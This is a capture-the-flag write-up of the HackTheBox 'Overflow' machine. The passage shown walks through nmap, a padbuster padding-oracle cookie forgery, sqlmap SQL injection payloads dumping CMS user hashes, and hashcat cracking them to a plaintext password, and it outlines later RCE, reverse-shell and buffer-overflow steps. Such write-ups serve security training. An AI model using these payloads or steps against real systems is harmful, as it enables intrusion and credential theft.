# Overflow - HackTheBox - Writeup
Linux, 40 Base Points, Hard



## Machine


 
## TL;DR

To solve this machine, we begin by enumerating open services using ```namp``` – finding ports ```22```, ```25``` and ```80```.

***User 1***: Found ```padding-oracle``` on ```auth``` Cookie token, Using that we create ```auth``` token of the admin user, Found SQLi on ```logs``` API, Using SQLi we fetch the ```editor``` password of ```CMS Made Simple``` system, On CMS we found another subdomain ```devbuild-job.overflow.htb```, On this subdomain, we found upload page, the webserver validate the image using ```exiftool```, Using ```CVE-2021-22204-exiftool``` we get RCE as ```www-data``` user, On ```/var/www/html/config/db.php``` we found the password of ```developer``` user.

***User 2***: By enumerating we found a file on ```/opt/commontask.sh``` which runs every 1 min by ```tester``` user, This script trying to download file ```task.sh``` from ```http://taskmanage.overflow.htb```, By observing the permission of the file ```/etc/passwd``` we can see ```developer``` user can edit ```/etc/hosts```, Using that we add ```taskmanage.overflow.htb``` subdomain, With the user ```www-data``` we create a reverse shell on ```/var/www/html/task.sh``` and we get a reverse shell as ```tester``` user.

***Root***: Found SUID file ```/opt/file_encrypt/file_encrypt``` which encrypts (using XOR) input file and writes it to the target path as ```root```, By reversing the binary we found a Buffer Overflow, Using that we change the return address from ```check_pin``` function to ```encrypt``` function, By encrypting our ```/etc/passwd``` file (which replace the group of ```developer``` user to ```root```) to ```/etc/passwd``` we log in with ```developer``` as ```root```.




## Overflow Solution

### User 1

Let's start with ```nmap``` scanning:

```console
┌─[evyatar@parrot]─[/hackthebox/Overflow]
└──╼ $ nmap -sV -sC -oA nmap/Overflow 10.10.11.119
Starting Nmap 7.80 ( https://nmap.org ) at 2022-03-20 12:26 IST
Nmap scan report for 10.10.11.119
Host is up (0.15s latency).
Not shown: 997 closed ports
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.5 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 eb:7c:15:8f:f2:cc:d4:26:54:c1:e1:57:0d:d5:b6:7c (RSA)
|   256 d9:5d:22:85:03:de:ad:a0:df:b0:c3:00:aa:87:e8:9c (ECDSA)
|_  256 fa:ec:32:f9:47:17:60:7e:e0:ba:b6:d1:77:fb:07:7b (ED25519)
25/tcp open  smtp    Postfix smtpd
|_smtp-commands: overflow, PIPELINING, SIZE 10240000, VRFY, ETRN, STARTTLS, ENHANCEDSTATUSCODES, 8BITMIME, DSN, SMTPUTF8, 
80/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
|_http-server-header: Apache/2.4.29 (Ubuntu)
|_http-title: Overflow Sec
Service Info: Host:  overflow; OS: Linux; CPE: cpe:/o:linux:linux_kernel


```

By observing port 80 we get the following web page:



At the bottom of the page we can see the domain ```Overflow.HTB```, Let's add it to ```/etc/hosts```.

Let's [Register](http://overflow.htb/register.php):



And we get the following home page:



By observing the Cookies we can see the following:



We can see the ```auth``` cookie which is ```odFoiqXTbx0E5RtzU9L%2F6GYx0n9iArZH```.

If we are removing the last character from the cookie ```odFoiqXTbx0E5RtzU9L%2F6GYx0n9iArZ``` we get the following error:



By reading the following [https://book.hacktricks.xyz/cryptography/padding-oracle-priv](https://book.hacktricks.xyz/cryptography/padding-oracle-priv):
>When an application decrypts encrypted data, it will first decrypt the data; then it will remove the padding. During the >cleanup of the padding, if an invalid padding triggers a detectable behaviour, you have a padding oracle vulnerability. The >detectable behaviour can be an error, a lack of results, or a slower response.

>If you detect this behaviour, you can decrypt the encrypted data and even encrypt any cleartext.

Let's use [padbuster](https://www.aon.com/cyber-solutions/aon_cyber_labs/automated-padding-oracle-attacks-with-padbuster/) to create an admin user cookie (Login again before and take the Cookies).

```console
┌─[evyatar@parrot]─[/hackthebox/Overflow]
└──╼ $ padbuster http://overflow.htb/login.php "yVyYH1PUkDorhY6EyRmIuRWuw11e7qkU" 8 --cookie "auth=yVyYH1PUkDorhY6EyRmIuRWuw11e7qkU" -plaintext "user=admin"

+-------------------------------------------+
| PadBuster - v0.3.3                        |
| Brian Holyfield - Gotham Digital Science  |
| labs@gdssecurity.com                      |
+-------------------------------------------+

INFO: The original request returned the following
[+] Status: 302
[+] Location: home/index.php
[+] Content Length: 1878

INFO: Starting PadBuster Encrypt Mode
[+] Number of Blocks: 2

INFO: No error string was provided...starting response analysis

*** Response Analysis Complete ***

The following response signatures were returned:

-------------------------------------------------------
ID#	Freq	Status	Length	Location
-------------------------------------------------------
1	1	200	1878	N/A
2 **	255	302	0	../logout.php?err=1
-------------------------------------------------------

Enter an ID that matches the error condition
NOTE: The ID# marked with ** is recommended : 2

Continuing test with selection 2

[+] Success: (196/256) [Byte 8]
[+] Success: (148/256) [Byte 7]
[+] Success: (92/256) [Byte 6]
[+] Success: (41/256) [Byte 5]
[+] Success: (218/256) [Byte 4]
[+] Success: (136/256) [Byte 3]
[+] Success: (150/256) [Byte 2]
[+] Success: (190/256) [Byte 1]

Block 2 Results:
[+] New Cipher Text (HEX): 23037825d5a1683b
[+] Intermediate Bytes (HEX): 4a6d7e23d3a76e3d

[+] Success: (1/256) [Byte 8]
[+] Success: (36/256) [Byte 7]
[+] Success: (180/256) [Byte 6]
[+] Success: (17/256) [Byte 5]
[+] Success: (146/256) [Byte 4]
[+] Success: (50/256) [Byte 3]
[+] Success: (132/256) [Byte 2]
[+] Success: (135/256) [Byte 1]

Block 1 Results:
[+] New Cipher Text (HEX): 0408ad19d62eba93
[+] Intermediate Bytes (HEX): 717bc86beb4fdefe

-------------------------------------------------------
** Finished ***

[+] Encrypted value is: BAitGdYuupMjA3gl1aFoOwAAAAAAAAAA
-------------------------------------------------------
```

By trying to use the encrypted value ```BAitGdYuupMjA3gl1aFoOwAAAAAAAAAA``` as Cookie, we get the home page of the admin user:


On [Admin Panel](http://overflow.htb/admin_cms_panel/admin/) we can see the following ```CMS Made Simple``` login page:



By clicking on [Logs](http://overflow.htb/home/logs.php?name=admin) we get:



By observing the HTTP request of Logs we can see ```http://overflow.htb/home/logs.php?name=admin```, Let's try to use [SQLmap](https://sqlmap.org/) on Logs request:
```http
GET /home/logs.php?name=evevev HTTP/1.1
Host: overflow.htb
User-Agent: Mozilla/5.0 (Windows NT 10.0; rv:78.0) Gecko/20100101 Firefox/78.0
Accept: */*
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Referer: http://overflow.htb/home/index.php
DNT: 1
Connection: close
Cookie: auth=BAitGdYuupMjA3gl1aFoOwAAAAAAAAAA; CMSSESSIDf25decdf38ae=2hrs8d6hdmlgtcmr9o9s5o8po1
Cache-Control: max-age=0


```

```console
┌─[evyatar@parrot]─[/hackthebox/Overflow]
└──╼ $ sqlmap -r req --dbs
        ___
       __H__
 ___ ___[.]_____ ___ ___  {1.5.8#stable}
|_ -| . [)]     | .'| . |
|___|_  ["]_|_|_|__,|  _|
      |_|V...       |_|   http://sqlmap.org

[!] legal disclaimer: Usage of sqlmap for attacking targets without prior mutual consent is illegal. It is the end user's responsibility to obey all applicable local, state and federal laws. Developers assume no liability and are not responsible for any misuse or damage caused by this program

[*] starting @ 15:39:08 /2022-04-01/

.....


[15:39:08] [INFO] parsing HTTP request from 'req'
[15:39:08] [INFO] resuming back-end DBMS 'mysql' 
[15:39:08] [INFO] testing connection to the target URL
sqlmap resumed the following injection point(s) from stored session:
---
Parameter: name (GET)
    Type: time-based blind
    Title: MySQL >= 5.0.12 AND time-based blind (query SLEEP)
    Payload: name=evevev') AND (SELECT 3005 FROM (SELECT(SLEEP(5)))XZdF) AND ('KVGf'='KVGf

    Type: UNION query
    Title: Generic UNION query (NULL) - 3 columns
    Payload: name=evevev') UNION ALL SELECT NULL,NULL,CONCAT(0x71766b6b71,0x546a517a78455962426d4a7857676151435256765546714264784a457a6e71705579714772446e65,0x7162787a71)-- -
---
[15:39:08] [INFO] the back-end DBMS is MySQL
web server operating system: Linux Ubuntu 18.04 (bionic)
web application technology: Apache 2.4.29
back-end DBMS: MySQL >= 5.0.12
[15:39:08] [INFO] fetching database names
available databases [4]:
[*] cmsmsdb
[*] information_schema
[*] logs
[*] Overflow

[15:39:09] [INFO] fetched data logged to text files under '/home/user/.local/share/sqlmap/output/overflow.htb'
[15:39:09] [WARNING] your sqlmap version is outdated

[*] ending @ 15:39:09 /2022-04-01/

```

Let's fetch also tables from ```cmsmsdb```:
```console
┌─[evyatar@parrot]─[/hackthebox/Overflow]
└──╼ $ sqlmap -r req --tables -D cmsmsdb
        ___
       __H__
 ___ ___[)]_____ ___ ___  {1.5.8#stable}
|_ -| . [(]     | .'| . |
|___|_  ["]_|_|_|__,|  _|
      |_|V...       |_|   http://sqlmap.org

[!] legal disclaimer: Usage of sqlmap for attacking targets without prior mutual consent is illegal. It is the end user's responsibility to obey all applicable local, state and federal laws. Developers assume no liability and are not responsible for any misuse or damage caused by this program

[*] starting @ 15:43:11 /2022-04-01/

[15:43:11] [INFO] parsing HTTP request from 'req'
[15:43:11] [INFO] resuming back-end DBMS 'mysql' 
[15:43:11] [INFO] testing connection to the target URL
sqlmap resumed the following injection point(s) from stored session:
---
Parameter: name (GET)
    Type: time-based blind
    Title: MySQL >= 5.0.12 AND time-based blind (query SLEEP)
    Payload: name=evevev') AND (SELECT 3005 FROM (SELECT(SLEEP(5)))XZdF) AND ('KVGf'='KVGf

    Type: UNION query
    Title: Generic UNION query (NULL) - 3 columns
    Payload: name=evevev') UNION ALL SELECT NULL,NULL,CONCAT(0x71766b6b71,0x546a517a78455962426d4a7857676151435256765546714264784a457a6e71705579714772446e65,0x7162787a71)-- -
---
[15:43:11] [INFO] the back-end DBMS is MySQL
web server operating system: Linux Ubuntu 18.04 (bionic)
web application technology: Apache 2.4.29
back-end DBMS: MySQL >= 5.0.12
[15:43:11] [INFO] fetching tables for database: 'cmsmsdb'
Database: cmsmsdb
[47 tables]
+-----------------------------+
| cms_additional_users        |
| cms_additional_users_seq    |
| cms_admin_bookmarks         |
| cms_admin_bookmarks_seq     |
| cms_adminlog                |
| cms_content                 |
| cms_content_props           |
| cms_content_props_seq       |
| cms_content_seq             |
| cms_event_handler_seq       |
| cms_event_handlers          |
| cms_events                  |
| cms_events_seq              |
| cms_group_perms             |
| cms_group_perms_seq         |
| cms_groups                  |
| cms_groups_seq              |
| cms_layout_design_cssassoc  |
| cms_layout_design_tplassoc  |
| cms_layout_designs          |
| cms_layout_stylesheets      |
| cms_layout_templates        |
| cms_layout_tpl_addusers     |
| cms_layout_tpl_categories   |
| cms_layout_tpl_type         |
| cms_locks                   |
| cms_mod_cmsjobmgr           |
| cms_mod_filepicker_profiles |
| cms_module_deps             |
| cms_module_search_index     |
| cms_module_search_items     |
| cms_module_search_items_seq |
| cms_module_search_words     |
| cms_module_smarty_plugins   |
| cms_module_templates        |
| cms_modules                 |
| cms_permissions             |
| cms_permissions_seq         |
| cms_routes                  |
| cms_siteprefs               |
| cms_user_groups             |
| cms_userplugins             |
| cms_userplugins_seq         |
| cms_userprefs               |
| cms_users                   |
| cms_users_seq               |
| cms_version                 |
+-----------------------------+

[15:43:11] [INFO] fetched data logged to text files under '/home/user/.local/share/sqlmap/output/overflow.htb'
[15:43:11] [WARNING] your sqlmap version is outdated

[*] ending @ 15:43:11 /2022-04-01/

```

By fetching from ```cms_users``` we get:
```console
┌─[evyatar@parrot]─[/hackthebox/Overflow]
└──╼ $ sqlmap -r req --dump -D cmsmsdb -T cms_users
        ___
       __H__
 ___ ___[(]_____ ___ ___  {1.5.8#stable}
|_ -| . [']     | .'| . |
|___|_  [']_|_|_|__,|  _|
      |_|V...       |_|   http://sqlmap.org

[!] legal disclaimer: Usage of sqlmap for attacking targets without prior mutual consent is illegal. It is the end user's responsibility to obey all applicable local, state and federal laws. Developers assume no liability and are not responsible for any misuse or damage caused by this program

[*] starting @ 15:44:33 /2022-04-01/

[15:44:33] [INFO] parsing HTTP request from 'req'
[15:44:33] [INFO] resuming back-end DBMS 'mysql' 
[15:44:33] [INFO] testing connection to the target URL
sqlmap resumed the following injection point(s) from stored session:
---
Parameter: name (GET)
    Type: time-based blind
    Title: MySQL >= 5.0.12 AND time-based blind (query SLEEP)
    Payload: name=evevev') AND (SELECT 3005 FROM (SELECT(SLEEP(5)))XZdF) AND ('KVGf'='KVGf

    Type: UNION query
    Title: Generic UNION query (NULL) - 3 columns
    Payload: name=evevev') UNION ALL SELECT NULL,NULL,CONCAT(0x71766b6b71,0x546a517a78455962426d4a7857676151435256765546714264784a457a6e71705579714772446e65,0x7162787a71)-- -
---
[15:44:33] [INFO] the back-end DBMS is MySQL
web server operating system: Linux Ubuntu 18.04 (bionic)
web application technology: Apache 2.4.29
back-end DBMS: MySQL >= 5.0.12
[15:44:33] [INFO] fetching columns for table 'cms_users' in database 'cmsmsdb'
[15:44:34] [INFO] fetching entries for table 'cms_users' in database 'cmsmsdb'
[15:44:34] [INFO] recognized possible password hashes in column 'password'
do you want to store hashes to a temporary file for eventual further processing with other tools [y/N] n
do you want to crack them via a dictionary-based attack? [Y/n/q] n
Database: cmsmsdb
Table: cms_users
[2 entries]
+---------+--------------------+--------+----------------------------------+----------+-----------+------------+---------------------+--------------+---------------------+
| user_id | email              | active | password                         | username | last_name | first_name | create_date         | admin_access | modified_date       |
+---------+--------------------+--------+----------------------------------+----------+-----------+------------+---------------------+--------------+---------------------+
| 1       | admin@overflow.htb | 1      | c6c6b9310e0e6f3eb3ffeb2baff12fdd | admin    | <blank>   | <blank>    | 2021-05-24 21:18:35 | 1            | 2021-05-26 14:49:15 |
| 3       | <blank>            | 1      | e3d748d58b58657bfa4dffe2def0b1c7 | editor   | <blank>   | editor     | 2021-05-25 06:38:33 | 1            | 2021-05-26 04:13:58 |
+---------+--------------------+--------+----------------------------------+----------+-----------+------------+---------------------+--------------+---------------------+

[15:44:41] [INFO] table 'cmsmsdb.cms_users' dumped to CSV file '/home/user/.local/share/sqlmap/output/overflow.htb/dump/cmsmsdb/cms_users.csv'
[15:44:41] [INFO] fetched data logged to text files under '/home/user/.local/share/sqlmap/output/overflow.htb'
[15:44:41] [WARNING] your sqlmap version is outdated

[*] ending @ 15:44:41 /2022-04-01/

```

To crack the hashes we need to find also the ```salt```, We can find it on ```cms_siteprefs``` table on ```sitemask``` column, the ```salt``` is ```6c2d17f37e226486```.

The ```admin``` hash crack failed, Let's try to crack the ```editor``` using ```hashcat```, Let's try both methods ```md5(password+salt)``` and ```md5(salt+password)```
```console
┌─[evyatar@parrot]─[/hackthebox/Overflow]
└──╼ $ hashcat --example-hashes | grep -i md5 -B4 -A4 | grep -i salt -B2 -A3

MODE: 10
TYPE: md5($pass.$salt)
HASH: 3d83c8e717ff0e7ecfe187f088d69954:343141
PASS: hashcat

--

MODE: 20
TYPE: md5($salt.$pass)
HASH: 57ab8499d08c59a7211c77f557bf9425:4247
PASS: hashcat
┌─[evyatar@parrot]─[/hackthebox/Overflow]
└──╼ $ cat hash
e3d748d58b58657bfa4dffe2def0b1c7:6c2d17f37e226486
```

Crack it (Using mode 20 ```password+salt```):
```console
┌─[evyatar@parrot]─[/hackthebox/Overflow]
└──╼ $ hashcat -m 20 hash ~/Desktop/rockyou.txt
hashcat (v6.1.1) starting...

OpenCL API (OpenCL 1.2 pocl 1.5, None+Asserts, LLVM 9.0.1, RELOC, SLEEF, DISTRO, POCL_DEBUG) - Platform #1 [The pocl project]
=============================================================================================================================
* Device #1: pthread-Intel(R) Core(TM) i7-8550U CPU @ 1.80GHz, 5853/5917 MB (2048 MB allocatable), 4MCU

Minimum password length supported by kernel: 0
Maximum password length supported by kernel: 256
Minimim salt length supported by kernel: 0
Maximum salt length supported by kernel: 256

Hashes: 1 digests; 1 unique digests, 1 unique salts
Bitmaps: 16 bits, 65536 entries, 0x0000ffff mask, 262144 bytes, 5/13 rotates
Rules: 1

Applicable optimizers applied:
* Zero-Byte
* Early-Skip
* Not-Iterated
* Single-Hash
* Single-Salt
* Raw-Hash

ATTENTION! Pure (unoptimized) backend kernels selected.
Using pure kernels enables cracking longer passwords but for the price of drastically reduced performance.
If you want to switch to optimized backend kernels, append -O to your commandline.
See the above message to find out about the exact limits.

Watchdog: Hardware monitoring interface not found on your system.
Watchdog: Temperature abort trigger disabled.

Host memory required for this attack: 65 MB

Dictionary cache hit:
* Filename..: ~/Desktop/rockyou.txt
* Passwords.: 14344385
* Bytes.....: 139921504
* Keyspace..: 14344385

e3d748d58b58657bfa4dffe2def0b1c7:6c2d17f37e226486:alpha!@#$%bravo
                                                 
Session..........: hashcat
Status...........: Cracked
Hash.Name........: md5($salt.$pass)
Hash.Target......: e3d748d58b58657bfa4dffe2def0b1c7:6c2d17f37e226486
Time.Started.....: Sat Apr  2 16:11:16 2022 (1 sec)
Time.Estimated...: Sat Apr  2 16:11:17 2022 (0 secs)
Guess.Base.......: File (~/Desktop/rockyou.txt)
Guess.Queue......: 1/1 (100.00%)
Speed.#1.........:  4983.5 kH/s (0.22ms) @ Accel:1024 Loops:1 Thr:1 Vec:8
Recovered........: 1/1 (100.00%) Digests
Progress.........: 2056192/14344385 (14.33%)
Rejected.........: 0/2056192 (0.00%)
Restore.Point....: 2052096/14344385 (14.31%)
Restore.Sub.#1...: Salt:0 Amplifier:0-1 Iteration:0-1
Candidates.#1....: alvino12 -> alikey

Started: Sat Apr  2 16:11:15 2022
Stopped: Sat Apr  2 16:11:18 2022
┌─[user@parrot]─[/hackthebox/Overflow]
└──╼ $ hashcat -m 20 --show hash
e3d748d58b58657bfa4dffe2def0b1c7:6c2d17f37e226486:alpha!@#$%bravo

```

And we get the credentials ```editor:alpha!@#$%bravo``` password to CMS system, Let's try to [login](http://overflow.htb/admin_cms_panel/admin/login.php):



We can see the version of CMS ```CMS Made Simple™ 2.2.8 “Flin Flon”```.

By clicking on [Extension - User Defnied Tags](http://overflow.htb/admin_cms_panel/admin/listusertags.php?__c=a686b77532aa3134622&message=usertagdeleted) we get:



We can see the important message:
>Make sure you check out devbuild-job.overflow.htb and report any UI related problems to devloper, use the editor account to authenticate.

Let's browse to [http://devbuild-job.overflow.htb](http://devbuild-job.overflow.htb):


By clicking on the [Account](http://devbuild-job.overflow.htb/home/profile/index.php?id=1) buttton we get the following page:

